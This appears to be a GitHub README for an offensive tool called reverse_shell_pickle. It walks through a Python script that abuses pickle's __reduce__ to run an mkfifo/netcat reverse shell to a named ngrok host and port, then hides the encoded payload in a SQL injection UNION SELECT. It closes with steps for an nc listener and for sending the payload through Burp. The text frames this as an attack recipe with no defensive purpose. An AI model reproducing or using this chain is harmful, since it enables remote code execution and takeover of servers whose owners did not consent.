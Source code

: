# reverse_shell_pickle
This reverse shell code was able to inject SQL allocated Pickle written in Python Code:
    The script imports necessary modules such as sys, base64, pickle, urllib.parse, and requests for various functionalities.
    Next, a class named Payload is defined. This class has a single method called __reduce__. In Python, the __reduce__ method is used by the pickle module for serialization and deserialization. In this case, the __reduce__ method is overridden to define a custom behaviour for serialization. Inside this method, an operating system command is constructed to establish a reverse shell connection.
    The command (cmd) used in this example uses the mkfifo command to create a named pipe, nc command to connect to a remote host (0.tcp.ap.ngrok.io) on a specific port (15792), and >/tmp/p | /bin/sh > /tmp/p 2>&1 to redirect the input/output to the named pipe and execute a shell command.
    The if __name__ == "__main__": condition ensures that the code block underneath is only executed if the script is being run directly (as opposed to being imported as a module).
    Within the if block, an instance of the Payload class is created and serialized using pickle.dumps(). The serialized payload is then base64-encoded to make it suitable for inclusion in a SQL query.
    The payload string is constructed by appending the serialized and encoded payload to a SQL injection payload. The SQL injection payload is formed by closing a single quotation mark ('), adding the UNION SELECT clause, and then injecting the payload.
    The payload string is further modified using requests.utils.requote_uri() to ensure proper URL encoding.
    Finally, the modified payload is printed to the console.

    
nc listener on any port of your choice you can use the command below:

nc -lnvp <port-num>

Now copy the payload string that we got from the output just now and paste into burp to send request.

Go back to nc then here we go.
